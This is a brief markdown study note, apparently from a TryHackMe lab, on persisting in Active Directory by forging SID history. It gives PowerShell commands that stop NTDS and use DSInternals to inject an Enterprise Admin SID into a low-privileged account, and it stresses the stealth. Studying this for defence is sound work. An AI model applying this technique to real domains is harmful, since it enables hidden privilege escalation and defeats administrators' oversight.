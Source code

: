 # Active Directory SID History


The Security IDentifiers (SIDs) are used to track the security principal and the account's access when connecting to resources check: [[Windows-Accounts-Groups]] for more details. The have an attribute called SID history is use to enable access for an account to effectively be cloned to another. It help is AD migrations, as the user can still access the previous domains. While SID history is a great persistence technique, credential rotation and cleanup can still remove our persistence.

## Forging History

SID history are not restricted to only including SIDs from other domains therefore we can add a SID of our current domain to the SID history of an account we control.
- Requires Domain Admin privileges or the equivalent
- When the account creates a logon event, the SIDs associated with the account are added to the user's token, which then determines the privileges associated with the account. This includes group SIDs.
- We can inject the Enterprise Admin SID to elevate the account's privileges to effective be Domain Admin in all domains in the forest.
- Very Stealthy - SIDs are added to the user's token, privileges would be respected even if the account is not a member of the actual group. It would look like a normal user in Domain Users group but with Enterprise Admin privileges - can alter a current normal user with these privileges for extra subterfuge.

```powershell
Get-ADUser <your ad username> -properties sidhistory,memberof # Check history, get sid
Get-ADGroup "Domain Admins" # SID of Domain Admins Group

Stop-Service -Name ntds -force 
# the latest version of Mimikatz has a flaw that does not allow it to patch LSASS to update SID history
# https://github.com/MichaelGrafnetter/DSInternals tool to patch the ntds
Add-ADDBSidHistory -SamAccountName 'username of our low-priveleged AD account' -SidHistory 'SID to add to SID History' -DatabasePath C:\Windows\NTDS\ntds.dit 
Start-Service -Name ntds  
```

## References

[THM AD Persistence Room](https://tryhackme.com/room/persistingad)
